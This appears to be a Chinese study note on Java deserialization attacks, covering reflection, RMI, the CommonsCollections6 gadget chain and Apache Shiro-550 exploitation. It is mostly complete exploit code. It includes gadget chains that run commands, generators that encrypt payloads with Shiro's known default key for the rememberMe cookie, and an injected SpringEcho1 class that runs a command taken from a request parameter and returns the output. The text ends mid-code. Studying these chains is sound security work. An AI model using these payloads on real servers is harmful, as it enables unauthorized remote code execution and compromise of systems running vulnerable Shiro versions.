


# Java Web安全学习

学习参考[JavaThings - Java安全漫谈笔记相关](https://github.com/phith0n/JavaThings)系列文章

## Java反射

实现动态调用信息，动态获取方法

主要涉及到的函数如下：

```java
Class clazz = Class.forName(className);
clazz.getMethod(methodName).invoke(clazz.newInstance());
```

`Class.forName()`存在两个函数重载

```java
Class.forName(className);
// String name, **boolean** initialize, ClassLoader loader
Class.forName(className, true, currentLoader);
```

`initialize=true`表示是否进行类初始化，也就是是否执行`static {}`代码段

两种常用的命令执行的方法：

通过反射执行`Runtime.getRuntime().exec("calc.exe");`启动计算器

- Runtime类中构造器是私有的，需要通过通过get方法获取对象
  - 单例模式，类构造器是私有的，只在类初始化时执行一次构造函数创建对象

```java
Class clazz = Class.forName("java.lang.Runtime");
// getRuntimeMethod没有参数
Method getRuntimeMethod = clazz.getMethod("getRuntime");
// 使用类调用静态方法
Object runtime = getRuntimeMethod.invoke(clazz);
// exec的参数为String类型
Method execMethod = clazz.getMethod("exec", String.class);
// 使用实例化后的对象调用方法
execMethod.invoke(runtime, "calc.exe");
```

另一种执行命令的方式`new ProcessBuilder(Arrays.asList("calc.exe")).start();`换成反射的写法

- `getConstructor`函数可以调用有参构造器

```java
Class clazz = Class.forName("java.lang.ProcessBuilder");
// getConstructor和newInstance参数匹配
Object instance = clazz.getConstructor(List.class).newInstance(Arrays.asList("calc.exe"));
clazz.getMethod("start").invoke(instance);
```

Runtime类也可以直接调用它的私有构造器

- `getDeclaredMethod`、`getDeclaredConstructor`能够获取类的私有方法

- 修改属性的作用域`.setAccessible(true)`

```java
Class clazz = Class.forName("java.lang.Runtime");
// 获取私有构造器
Constructor constructor = clazz.getDeclaredConstructor();
// 修改私有构造器的作用域
constructor.setAccessible(true);
// 然后就可以调用构造函数了
Object instance = constructor.newInstance();
Method execMethod = clazz.getMethod("exec", String.class);
execMethod.invoke(instance, "calc.exe");
```

## RMI远程方法调用

RMI目标与RPC类似，让某个Java虚拟机上的对象调用另一个Java虚拟机上的对象

RMI server分成三部分

- 继承`java.rmi.Remote`的接口，其中定义要远程调用的函数

- 实现此接口的类

- 创建registry，实例化上面的类并绑定到一个地址

  ```java
  LocateRegistry.createRegistry(端口号);
  Naming.rebind("rmi://IP:端口号/远程对象名称", 实现继承remote的接口的类);
  ```

RMI client

- 通过`Naming.lookup("rmi://IP:端口号/Hello")`在Registry中找到名字是Hello的对象，然后后续使用和在本地使用相同

RMI Registry

- 管理远程对象
- 来源地址是localhost时，可以调用`Naming.bind`、`rebind`、`unbind`方法
- 远程调用可以使用`Naming.list`、`lookup`方法

RMI抓包

抓包可以看到两次TCP连接建立，分别是连接到1099端口和12203端口



Call数据包中是客户端连接RMI Registry，寻找name是Hello的对象

- 0xaced开头的数据即为Java反序列化数据


returnData数据包中是Registry返回的Name=Hello的对象，里面包含了IP地址192.168.76.2和端口号0x00002fab，也就是12203


客户端与192.168.76.2:12203建立TCP连接，然后执行远程方法调用


使用[SerializationDumper](https://github.com/NickstaDB/SerializationDumper)分析Call数据包中的[Java序列化数据格式](https://docs.oracle.com/javase/8/docs/platform/serialization/spec/protocol.html)


returndata数据包反序列化后结果


在客户端和服务端的通信中，还有未识别出的RMI Call，50为call，ac ed是序列化数据的开头


codebase是一个远程URL，用于客户端或者服务端去搜索类：如果一端在反序列一个对象时没有在自己的CLASSPATH中找到该类，就会去远程加载codebase中的类

由于在RMI中codebase可以随着序列化数据一起传输，所以codebase被控制将会导致任意命令执行漏洞

codebase会通过`[Ljava.rmi.server.ObjID`的`classAnnotations`传递，所以只需要修改`classAnnotations`中的网址，就可以实现恶意的攻击

- `classAnnotations`是`ObjectOutputStream`类的`annotateClass`方法写入的内容

## Java反序列化基础

为传递复杂的数据类型，需要对JSON、XML等通用数据交互格式进行扩展

- Jackson和Fastjson等序列化库，将对象转换为特定语法
- Java等语言内置的序列化方法，将对象转换为二进制流

Java反序列化与PHP反序列化

- 相似之处：序列化时将一个对象中的属性按照特定格式转换为字节流，反序列化时在字节流中取出属性赋值给新的对象
- 不同之处：
  - Java提供了`writeObject`方法，**允许开发者在序列化流中插入自定义数据**；PHP的序列化、反序列化是内部过程，开发者不能参与，只能在之前的`__sleep`和之后的`__wakeup`进行一些操作
  - Java的`readObject`方法倾向于解决反序列化如何还原完整对象，PHP的`__wakeup`倾向于解决反序列化如何初始化对象

Python反序列化过程实际在执行一个基于栈的虚拟机，会导致任意命令执行漏洞，比PHP和Java的反序列化更危险

Java反序列化需要实现`Serializable`接口，实现`writeObject`和`readObject`方法

```java
private void writeObject(ObjectOutputStream s) throws IOException {
    s.defaultWriteObject();
    s.writeObject("This is a object");
}

private void readObject(ObjectInputStream s) throws IOException, ClassNotFoundException {
    s.defaultReadObject();
    String message = (String) s.readObject();
    System.out.println(message);
}
```

在第二个TCP连接的Return Data包中找到"This is a object"：


查看序列化数据内容


## CommonsCollections6利用链学习

Apache Commons Collections是一个扩展了Java标准库里的Collection结构的第三方基础库，它提供了很多强有力的数据结构类型并且实现了各种集合工具类

作为Apache开源项目的重要组件，Commons Collections被广泛应用于各种Java应用的开发

该项目中的提供的一些类可用于反序列化

### Transformer类

#### Transformer接口

只有一个需要实现的方法

```java
package org.apache.commons.collections;

public interface Transformer {
    Object transform(Object var1);
}
```

#### ConstantTransformer类

在构造函数中传入一个对象，并在transformer接口返回

```java
public class ConstantTransformer implements Transformer, Serializable {
    static final long serialVersionUID = 6374440726369055124L;
    public static final Transformer NULL_INSTANCE = new ConstantTransformer((Object)null);
    private final Object iConstant;

    public static Transformer getInstance(Object constantToReturn) {
        return (Transformer)(constantToReturn == null ? NULL_INSTANCE : new ConstantTransformer(constantToReturn));
    }
    // 构造函数
    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }
	// transform接口
    public Object transform(Object input) {
        return this.iConstant;
    }

    public Object getConstant() {
        return this.iConstant;
    }
}
```

#### InvokerTransformer类

同样实现了Transformer和Serializable接口

构造函数中传入方法名、参数类型、参数，transform接口中可以执行传入对象的相应方法，实现任意方法执行

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    this.iMethodName = methodName;
    this.iParamTypes = paramTypes;
    this.iArgs = args;
}

public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var7) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
        }
    }
}
```

#### ChainedTransformer类

同样实现了Transformer和Serializable接口

构造函数输入一组transformers，在transform函数中实现transformers的串联：

- 前一个回调的结果，作为后一个回调的参数

```java
public ChainedTransformer(Transformer[] transformers) {
	this.iTransformers = transformers;
}

public Object transform(Object object) {
	for(int i = 0; i < this.iTransformers.length; ++i) {
		object = this.iTransformers[i].transform(object);
	}
	return object;
}
```

#### 命令调用实现

由于Runtime类没有实现Serializable接口，无法被序列化，所以改用可以序列化的Class类对象Runtime.class，然后再通过反射去获取当前上下文中的Runtime对象：

```java
Method f = Runtime.class.getMethod("getRuntime");
```

getMethod函数原型

```java
public Method getMethod(String name, Class<?>... parameterTypes)
```

实现计算器执行：

```java
Transformer[] transformers = new Transformer[] {
    // 返回Runtime类
    new ConstantTransformer(Runtime.class),
    // 运行getRuntime方法
    new InvokerTransformer("getMethod", new Class[] {
    	String.class,
    	Class[].class }, new Object[] { "getRuntime",
    	new Class[0] }),
    // 运行invoke方法，静态方法参数为null
    new InvokerTransformer("invoke", new Class[] {
    	Object.class,
    	Object[].class }, new Object[] { null, new
    	Object[0] }),
    // 运行exec方法
    new InvokerTransformer("exec", new Class[] { String.class
    	},
    	new String[] { "calc.exe" }),
    new ConstantTransformer(1),
};
```

### LazyMap类

LazyMap是对标准数据结构Map做的修饰，在进行get操作时会调用transform函数

```java
public class LazyMap extends AbstractMapDecorator implements Map, Serializable {
    
    // get方法调用transform方法
    public Object get(Object key) {
        if (!super.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            super.map.put(key, value);
            return value;
        } else {
            return super.map.get(key);
        }
    }
}
```

所以为了使transform利用链能够被调用，需要在上下文中找到调用LazyMap的get方法的位置

### TiedMapEntry类

getvalue方法中调用了map的get方法

hashCode方法中调用了this.getvalue方法

```java
public class TiedMapEntry implements Entry, KeyValue, Serializable {
    
    public Object getValue() {
        return this.map.get(this.key);
    }
    public int hashCode() {
        Object value = this.getValue();
        return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
    }
```

### HashMap类

在hash方法中调用了hashcode方法

在**readobject方法**中调用了hash方法，关键就是找到一个readObject方法可以触发整个调用链

```java
public class HashMap<K,V> extends AbstractMap<K,V>
    implements Map<K,V>, Cloneable, Serializable {
    
	static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
    
    private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // ...
        putVal(hash(key), key, value, false, false);
    }
}
```

### 触发命令调用

分为以下几步

- 利用之前构造的Transform利用链和HashMap对象，构造LazyMap对象
  - LazyMap.get方法可以执行Transform.transform方法
- 将LazyMap对象作为key，构造TiedMapEntry对象
  - TiedMapEntry.hashCode方法会调用TiedMapEntry.getvalue方法
  - TiedMapEntry.getvalue方法会调用map.get方法
- 将TiedMapEntry对象作为key，构造HashMap对象
  - HashMap.readObject方法会调用hash方法
  - hash方法会调用key.hashCode方法

```java
 Map innerMap = new HashMap();
 Map outerMap = LazyMap.decorate(innerMap, transformerChain);
 TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
 Map expMap = new HashMap();
 expMap.put(tme, "valuevalue");
```

在expMap序列化时，即可触发一系列命令的执行

### 利用链完整代码

需要在pom.xml中加入commons-collections的版本声明

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

代码中其它关键点还包括

- 为了避免本地不经意触发命令，一开始构造一个`fakeTransformers`，在后面要生成序列化流时再将其替换为包含真实执行命令的`transformers`
- 由于HashMap.put方法也会调用key.hashCode，会导致LazyMap的利用链被调用，outerMap中出现keykey导致get方法无法被调用，所以需要通过`outerMap.remove("keykey");`将keykey移除，从而触发map的get方法

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {

    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class,
                        Object[].class }, new Object[] { null, new
                        Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class
                },
                        new String[] { "calc.exe" }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new
                ChainedTransformer(fakeTransformers);
        // 不再使⽤原CommonsCollections6中的HashSet，直接使⽤HashMap
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.remove("keykey");
        // 替换掉fakeTransformers
        Field f =
                ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);
        // ⽣成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();
        // 本地测试触发
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

代码运行效果


## shiro550反序列化漏洞利用

Apache Shiro框架提供了记住密码的功能，用户登录成功后会生成加密并编码成功的cookie，服务端会对cookie值：

- base64解码
- AES解密（加密密钥硬编码）
  - 在1.2.4版本之前默认密钥的base64编码后的值为kPH+bIxk5D2deZiIxcaaaA==
  - 目前去掉了该硬编码的密钥，使其每次生成一个密钥来解决该漏洞，但是密钥可以被收集

- 反序列化（未进行过滤），导致反序列化RCE漏洞

漏洞特征是登录页面的cookie中存在rememberMe=deleteMe

在有些存在Tomcat的情况下，shiro反序列化无法使用CommonsCollections6利用链，因为其中用到了Transformer数组

如果反序列化流中包含了像Transformer数组这样的非Java自身的数组，会出现无法加载类的错误

因此需要构造不含数组的反序列化Gadget

### TemplatesImpl类

TemplatesImpl类位于`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`包中

该类中有个内部类TransletClassLoader，特点是重写了defineClass方法，将其从父类的protected权限变成了default权限

```java
Class defineClass(final byte[] b) {
	return defineClass(null, b, 0, b.length);
}
```

下面是ClassLoader.java中的defineClass方法

```java
protected final Class<?> defineClass(String name, byte[] b, int off, int len) throws ClassFormatError
{
    return defineClass(name, b, off, len, null);
}
```

defineClass方法的作用是将传入的字节码转变为Java类

- 但在调用defineClass时，类对象不会被初始化，需要显式调用构造函数
- 所以若想使用defineClass在目标机器上执行任意代码，需要调用其构造函数

TransletClassLoader的defineClass方法被调用的逻辑：

- TemplatesImpl的defineTransletClasses
- TemplatesImpl的getTransletInstance
- TemplatesImpl的newTransformer（public）
- TemplatesImpl的getOutputProperties（public）

使用newTransformer构造POC

- setFieldValue用于设置私有属性
- `_bytecodes`传入字节码数组
  - 字节码对应的类需要为com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet的子类
- `_name`是任意不为null的字符串
- `_tfactory`需要是一个TransformerFactoryImpl对象，以保证后续调用不出错

```java
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][] {code});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
obj.newTransformer();
```

其中setFieldValue函数就是获取相应属性，将其设置为可访问，然后修改属性的值

```java
public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
    Field field = obj.getClass().getDeclaredField(fieldName);
    field.setAccessible(true);
    field.set(obj, value);
}
```

### 构造newTransformer方法调用

以前的Transformer数组无法使用了

```Java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(obj),
    new InvokerTransformer("newTransformer", null, null)
};
```

目标是只使用一个InvokerTransformer

关注到LazyMap的实现，发现它在调用transform接口的同时，会传入一个key，这个key正好可以代替ConstantTransformer

```java
 public Object get(Object key) {
     if (!super.map.containsKey(key)) {
         Object value = this.factory.transform(key);
         super.map.put(key, value);
         return value;
     } else {
         return super.map.get(key);
     }
 }
```

因此在只使用一个InvokerTransformer的情况下，相比于CommonsCollections6主要的改动

- 将TiedMapEntry的第二个参数key，修改为上面生成的TemplatesImpl对象
- 通过outerMap.clear()达到和outerMap.remove("keykey")一样的效果

```java
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformer);
// key修改为TemplatesImpl对象
TiedMapEntry tme = new TiedMapEntry(outerMap, obj);
Map expMap = new HashMap();
expMap.put(tme, "valuevalue");
outerMap.clear();
```

### commons-collections 3.1版本下的Shiro攻击

输出的内容可以放在Cookie中，发送给Shiro

主要注意的点

- InvokerTransformer中最开始传入的是无害的`getClass`方法，后续再改为会发生利用链的`newTransformer`方法
- javassist是操作字节码的第三方库，可以帮助将`SpringEcho1`类生成字节码

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsShiro {

    public static void setFieldValue(Object obj, String fieldName, Object value)
            throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        // 传入无害方法
        Transformer transformer = new InvokerTransformer("getClass", null, null);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);
        // key修改为TemplatesImpl对象
        TiedMapEntry tme = new TiedMapEntry(outerMap, obj);
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.clear();

        // 改为会发生利用链的newTransformer方法
        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        return barr.toByteArray();
    }

    public static void main(String []args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(SpringEcho1.class.getName());
        // 获取payload
        byte[] payloads = new CommonsCollectionsShiro().getPayload(clazz.toBytecode());
        AesCipherService aes = new AesCipherService();
        // base64解码得到shiro常见的硬编码key
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        // AES使用key加密payloads
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }

}
```

### PriorityQueue利⽤链

commons-collections4版本中还可以使用PriorityQueue利用链

PriorityQueue类实现了Serializable接口，实现了readObject方法，由于该方法会在反序列化中调用，所以需要重点关注

```java
public class PriorityQueue<E> extends AbstractQueue<E>implements java.io.Serializable {
    
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        SharedSecrets.getJavaOISAccess().checkArray(s, Object[].class, size);
        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

调用链在于`heapify()`方法会调用`siftDown(int k, E x)`方法，然后调用`siftDownUsingComparator(int k, E x)`方法，然后调用`comparator.compare`方法，所以找到一个实现comparator的类，如果它的compare函数能调用transform就好了

TransformingComparator类就是这样一个类

- 继承了Comparator接口
- 调用了传入对象的transform方法

```java
public class TransformingComparator<I, O> implements Comparator<I>, Serializable {
    
    public int compare(I obj1, I obj2) {
        O value1 = this.transformer.transform(obj1);
        O value2 = this.transformer.transform(obj2);
        return this.decorated.compare(value1, value2);
    }
```

### CommonsBeanutils项目

但以上的攻击是依赖于CommonsCollections库的，但shiro可以不依赖于该库

此种情况下需要构造一个无依赖的Shiro利用链，可以用到Shiro默认依赖的CommonsBeanutils

Apache Commons Beanutils提供了对普通Java类对象（Java Bean）的一些操作方法，如`PropertyUtils.getProperty(对象, "属性名");`可以直接调用任意JavaBean的getter方法

JavaBean主要用来传递数据，即把一组数据组合成一个JavaBean便于传输，可称为Java Bean的class需满足以下条件

- 若干`private`实例字段
- 通过`public`方法读写实例字段，且读写方法满足规范
  - `public Type getXyz()`，被称为getter方法
  - `public void setXyz(Type value)` ，被称为setter方法

#### BeanComparator类

BeanComparator用于实现两个Java Bean的大小比较

该类实现了`Comparator`接口，如果this.property不为空，就会调用两个对象的get方法获取相应属性的值

```java
public class BeanComparator implements Comparator, Serializable {
    
    public int compare(Object o1, Object o2) {
        if (this.property == null) {
            return this.comparator.compare(o1, o2);
        } else {
            try {
                // 调用get方法
                Object value1 = PropertyUtils.getProperty(o1, this.property);
                Object value2 = PropertyUtils.getProperty(o2, this.property);
                return this.comparator.compare(value1, value2);
            } catch (IllegalAccessException var5) {
                throw new RuntimeException("IllegalAccessException: " + var5.toString());
            } catch (InvocationTargetException var6) {
                throw new RuntimeException("InvocationTargetException: " + var6.toString());
            } catch (NoSuchMethodException var7) {
                throw new RuntimeException("NoSuchMethodException: " + var7.toString());
            }
        }
    }
```

正好TemplatesImpl的`getOutputProperties`方法就是一个get方法，此方法能够调用newTransformer方法，然后调用defineClass方法加载字节码

```java
public synchronized Properties getOutputProperties() {
	try {
		return newTransformer().getOutputProperties();
	}
	catch (TransformerConfigurationException e) {
		return null;
	}
}
```

所以只需要让`PropertyUtils.getProperty`的两个参数分别为TemplatesImpl对象和_outputProperties属性，即可调用getOutputProperties方法

#### BeanComparator构造器初始化问题

BeanComparator在初始化时用到了ComparableComparator

```java
public BeanComparator(String property) {
    this(property, ComparableComparator.getInstance());
}
```

但ComparableComparator在CommonsCollections中，如果shiro中未使用CommonsCollections项目，则无法使用该类

```java
import org.apache.commons.collections.comparators.ComparableComparator;
```

所以需要找到另一个comparator替代ComparableComparator，必须满足以下条件

- 实现`Comparator`接口
- 实现`Serializable`接口
- Java、shiro或commons-beanutils自带，且兼容性强

使用`String.CASE_INSENSITIVE_ORDER`作为替代品，该类是`java.lang.String`类下的一个内部私有类，满足上述条件

```java
public static final Comparator<String> CASE_INSENSITIVE_ORDER
                                         = new CaseInsensitiveComparator();
    private static class CaseInsensitiveComparator
            implements Comparator<String>, java.io.Serializable {
        // use serialVersionUID from JDK 1.2.2 for interoperability
        private static final long serialVersionUID = 8575799808933029326L;

        public int compare(String s1, String s2) {
            int n1 = s1.length();
            int n2 = s2.length();
            int min = Math.min(n1, n2);
            for (int i = 0; i < min; i++) {
                char c1 = s1.charAt(i);
                char c2 = s2.charAt(i);
                if (c1 != c2) {
                    c1 = Character.toUpperCase(c1);
                    c2 = Character.toUpperCase(c2);
                    if (c1 != c2) {
                        c1 = Character.toLowerCase(c1);
                        c2 = Character.toLowerCase(c2);
                        if (c1 != c2) {
                            // No overflow because of numeric promotion
                            return c1 - c2;
                        }
                    }
                }
            }
            return n1 - n2;
        }
```

### 无依赖的Shiro攻击

攻击调用流程

```
PriorityQueue.readObject方法
BeanComparator.compare方法
TemplatesImpl.getOutputProperties方法
TemplatesImpl.defineClass方法
```

首先创建TemplatesImpl对象

```java
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
```

然后创建BeanComparator

```java
final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
```

接下来创建一个有2个元素的PriorityQueue队列，传入刚才的BeanComparator用于元素的比较

```java
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
queue.add("1");
queue.add("1");
```

最后就是把comparator原本为空的属性替换成outputProperties，把queue中的对象替换为2个TemplatesImpl对象

```java
setFieldValue(comparator, "property", "outputProperties");
setFieldValue(queue, "queue", new Object[]{obj, obj});
```

完整的攻击代码如下

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsBeanutils1Shiro {

    public static void setFieldValue(Object obj, String fieldName, Object value)
            throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator(null,
                String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,
                comparator);
        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        return barr.toByteArray();
    }


    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(SpringEcho1.class.getName());
        // 获取payload
        byte[] payloads = new CommonsBeanutils1Shiro().getPayload(clazz.toBytecode());
        AesCipherService aes = new AesCipherService();
        // base64解码得到shiro常见的硬编码key
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        // AES使用key加密payloads
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());

    }
}
```

### shiro回显

SpringEcho1类

- 必须为AbstractTranslet的子类

  - 因此需要实现两个抽象接口：

    ```java
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
    ```

- 接收并响应HTTP请求

  - HttpServletRequest封装了HTTP请求
  - HttpServletResponse封装了HTTP响应
    - 写入完毕后需要调用flush方法

  ```java
  org.springframework.web.context.request.RequestAttributes ReqAttrs =
      org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
  javax.servlet.http.HttpServletRequest request =
      ((org.springframework.web.context.request.ServletRequestAttributes)
       ReqAttrs).getRequest();
  javax.servlet.http.HttpServletResponse response =
      ((org.springframework.web.context.request.ServletRequestAttributes)
       ReqAttrs).getResponse();
  // 读取请求参数
  String tc = request.getParameter("cmd");
  ```

  ```java
  // 将结果写入响应
  response.getWriter().write(res.toString());
  response.getWriter().flush();
  response.getWriter().close();
  ```

- 运行env命令

  首先获取cmd的参数值`String tc = request.getParameter("cmd");`

  然后进行解码`String p = org.apache.shiro.codec.Base64.decodeToString(tc);`得到env

  接下来将运行env的命令写入response中

完整代码

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
public class SpringEcho1 extends AbstractTranslet {
    public SpringEcho1() throws Exception {
        try {
            org.springframework.web.context.request.RequestAttributes ReqAttrs =
                    org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
            javax.servlet.http.HttpServletRequest request =
                    ((org.springframework.web.context.request.ServletRequestAttributes)
                            ReqAttrs).getRequest();
            javax.servlet.http.HttpServletResponse response =
                    ((org.springframework.web.context.request.ServletRequestAttributes)
                            ReqAttrs).getResponse();
            String tc = request.getParameter("cmd");
            if (tc != null && !tc.isEmpty()) {
                String p = org.apache.shiro.codec.Base64.decodeToString(tc);
                String[] cmd =
                        System.getProperty("os.name").toLowerCase().contains("windows") ? new String[]
                                {"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
                String res = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();
                response.getWriter().write(res);
                response.getWriter().flush();
                response.getWriter().close();
            }
        } catch (Exception e) {
